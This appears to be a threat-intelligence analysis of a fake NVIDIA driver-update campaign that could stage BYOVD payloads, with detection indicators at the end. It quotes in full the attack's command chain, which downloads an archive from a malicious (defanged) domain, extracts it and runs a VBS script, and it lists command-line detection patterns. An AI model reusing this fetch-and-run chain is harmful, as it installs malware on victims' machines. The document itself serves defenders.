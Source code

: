 The campaign employs a multi-stage delivery mechanism that begins with social engineering and culminates in potential BYOVD payload deployment:

**Stage 1: Social Engineering Lure**
*   **Fake Driver Updates:** The campaign presents users with convincing driver update prompts, specifically targeting NVIDIA graphics drivers and other common hardware components.
*   **Legitimate Appearance:** The fake update sites closely mimic authentic driver download services, using domains like `smartdriverfix[.]cloud` to appear legitimate.
*   **Urgency Tactics:** Users are presented with urgent driver update requirements, leveraging time pressure to reduce critical thinking.

**Stage 2: Multi-Command Execution Chain**
The attack employs a sophisticated three-stage command execution pattern that has been observed in real-world incidents:

```bash
curl -k -o "%TEMP%\nvidiadrivers.zip" https://api.smartdriverfix[.]cloud/nvidiadrivers-kp9s.update
&& powershell -Command "Expand-Archive -Force -Path '%TEMP%\nvidiadrivers.zip' -DestinationPath '%TEMP%\nvidiadrivers'"
&& wscript "%TEMP%\nvidiadrivers\update.vbs"
```

This command chain demonstrates several sophisticated techniques:
*   **Domain Masquerading:** Uses driver-themed domains to appear legitimate
*   **File Masquerading:** Employs driver-related filenames (`nvidiadrivers.zip`) to reduce suspicion
*   **Multi-Stage Execution:** Combines download, extraction, and execution phases with error handling
*   **Temporary Directory Usage:** Leverages %TEMP% to avoid detection and facilitate cleanup

**Stage 3: VBS Payload Deployment**
The final stage involves VBS script execution, which can serve multiple purposes:
*   **System Reconnaissance:** Gathering system information to determine suitable BYOVD drivers
*   **Privilege Escalation:** Preparing for administrative access required for driver installation
*   **Payload Staging:** Downloading and preparing vulnerable drivers for subsequent exploitation
*   **Defense Evasion:** Implementing anti-analysis and sandbox evasion techniques

### BYOVD Integration Potential

While the observed ClickFake campaigns have primarily focused on delivering information stealers and backdoors, the delivery mechanism is perfectly positioned for BYOVD payload deployment:

*   **Administrative Context:** The driver update pretext naturally justifies requests for administrative privileges
*   **User Expectations:** Users expect driver installations to require elevated permissions and system-level access
*   **Detection Evasion:** The legitimate appearance of driver updates can bypass user suspicion and security awareness training
*   **Staging Capability:** The multi-stage approach allows for dynamic payload selection based on target system characteristics

### Technical Indicators and IOCs

**Command Line Patterns:**
*   `curl` or `wget` commands with driver-themed filenames
*   PowerShell `Expand-Archive` operations on driver-related archives
*   `wscript` execution of VBS files from temporary directories
*   Multi-command chains using `&&` operators for conditional execution
